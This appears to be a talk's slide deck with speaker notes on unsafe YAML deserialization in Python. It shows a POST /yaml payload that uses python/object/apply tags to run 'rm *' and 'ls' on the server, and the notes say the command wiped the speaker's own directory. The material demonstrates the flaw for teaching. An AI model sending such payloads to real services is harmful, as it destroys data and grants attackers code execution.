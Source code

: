 Well, this can't be good.

I can use the exact same mechanism to 'instantiate' the python standard library function for shelling out to the system.

---

### hey... I wonder if... 

Note: 

Famous last words?

---

## Parsing YAML 

### POST /yaml 

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@catalyst.net.nz
'goodbye': !!python/object/apply:os.system ['rm *']
'contents_of_cwd': !!python/object/apply:subprocess.check_output ['ls']
``` 

### RESPONSE 

```py 
{'first_name': 'Tom',
'email_address': 'tom@catalyst.net.nz',
'last_name': 'Eastman',
'goodbye': 0,
'contents_of_cwd': '\n'}
``` 

Note: 

C'mon, I had to try it, right?

And so yeah, I ended up re-writing my little web server after that call cleaned out the directory it was in.

---

### Surely this doesn't happen in real life? 

Note: 

That's so blatantly bad that surely this wouldn't actually happen in real life, right?

---
### November 2011 
